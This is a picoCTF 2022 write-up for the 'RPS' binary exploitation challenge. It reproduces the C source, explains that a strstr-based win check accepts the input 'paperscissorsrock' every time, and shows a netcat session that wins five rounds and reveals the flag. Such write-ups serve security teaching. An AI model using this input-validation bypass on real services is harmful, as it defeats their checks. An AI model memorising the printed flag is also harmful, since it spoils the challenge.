

# RPS - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 200 Points

## Description


 
## RPS Solution

Let's observe the attached file [game-redacted.c](./game-redacted.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <time.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60


static const char* flag = "[REDACTED]";

char* hands[3] = {"rock", "paper", "scissors"};
char* loses[3] = {"paper", "scissors", "rock"};
int wins = 0;


int tgetinput(char *input, unsigned int l)
{
    fd_set          input_set;
    struct timeval  timeout;
    int             ready_for_reading = 0;
    int             read_bytes = 0;
    
    if( l <= 0 )
    {
      printf("'l' for tgetinput must be greater than 0\n");
      return -2;
    }
    
    
    /* Empty the FD Set */
    FD_ZERO(&input_set );
    /* Listen to the input descriptor */
    FD_SET(STDIN_FILENO, &input_set);

    /* Waiting for some seconds */
    timeout.tv_sec = WAIT;    // WAIT seconds
    timeout.tv_usec = 0;    // 0 milliseconds

    /* Listening for input stream for any activity */
    ready_for_reading = select(1, &input_set, NULL, NULL, &timeout);
    /* Here, first parameter is number of FDs in the set, 
     * second is our FD set for reading,
     * third is the FD set in which any write activity needs to updated,
     * which is not required in this case. 
     * Fourth is timeout
     */

    if (ready_for_reading == -1) {
        /* Some error has occured in input */
        printf("Unable to read your input\n");
        return -1;
    } 

    if (ready_for_reading) {
        read_bytes = read(0, input, l-1);
        if(input[read_bytes-1]=='\n'){
        --read_bytes;
        input[read_bytes]='\0';
        }
        if(read_bytes==0){
            printf("No data given.\n");
            return -4;
        } else {
            return 0;
        }
    } else {
        printf("Timed out waiting for user input. Press Ctrl-C to disconnect\n");
        return -3;
    }

    return 0;
}


bool play () {
  char player_turn[100];
  srand(time(0));
  int r;

  printf("Please make your selection (rock/paper/scissors):\n");
  r = tgetinput(player_turn, 100);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }

  int computer_turn = rand() % 3;
  printf("You played: %s\n", player_turn);
  printf("The computer played: %s\n", hands[computer_turn]);

  if (strstr(player_turn, loses[computer_turn])) {
    puts("You win! Play again?");
    return true;
  } else {
    puts("Seems like you didn't win this time. Play again?");
    return false;
  }
}


int main () {
  char input[3] = {'\0'};
  int command;
  int r;

  puts("Welcome challenger to the game of Rock, Paper, Scissors");
  puts("For anyone that beats me 5 times in a row, I will offer up a flag I found");
  puts("Are you ready?");
  
  while (true) {
    puts("Type '1' to play a game");
    puts("Type '2' to exit the program");
    r = tgetinput(input, 3);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
    
    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
      
    } else if (command == 1) {
      printf("\n\n");
      if (play()) {
        wins++;
      } else {
        wins = 0;
      }

      if (wins >= 5) {
        puts("Congrats, here's the flag!");
        puts(flag);
      }
    } else if (command == 2) {
      return 0;
    } else {
      puts("Please type either 1 or 2");
    }
  }

  return 0;
}
```

We need to win at least 5 times to get the flag.

Let's observe the winning check on ```play``` function:
```c
...
if (strstr(player_turn, loses[computer_turn])) {
    puts("You win! Play again?");
    return true;
  }
...
```

We can see function ```strstr``` which finds the first occurrence of the substring second argument in the first argument.

```loses``` array is:
```c
char* loses[3] = {"paper", "scissors", "rock"};
```

So if our string will be ```paperscissorsrock``` we always get into the ```if``` statement because each word on ```loses``` array exists on ```paperscissorsrock```, Let's try it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/rps]
└──╼ $ nc saturn.picoctf.net 52524
Welcome challenger to the game of Rock, Paper, Scissors
For anyone that beats me 5 times in a row, I will offer up a flag I found
Are you ready?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
paperscissorsrock
paperscissorsrock
You played: paperscissorsrock
The computer played: scissors
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
paperscissorsrock
paperscissorsrock
You played: paperscissorsrock
The computer played: scissors
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
paperscissorsrock
paperscissorsrock
You played: paperscissorsrock
The computer played: scissors
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
paperscissorsrock
paperscissorsrock
You played: paperscissorsrock
The computer played: rock
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
paperscissorsrock
paperscissorsrock
You played: paperscissorsrock
The computer played: rock
You win! Play again?
Congrats, here's the flag!
picoCTF{50M3_3X7R3M3_1UCK_32F730C2}
Type '1' to play a game
Type '2' to exit the program
Timed out waiting for user input. Press Ctrl-C to disconnect
Goodbye!
```

And we get the flag ```picoCTF{50M3_3X7R3M3_1UCK_32F730C2}```.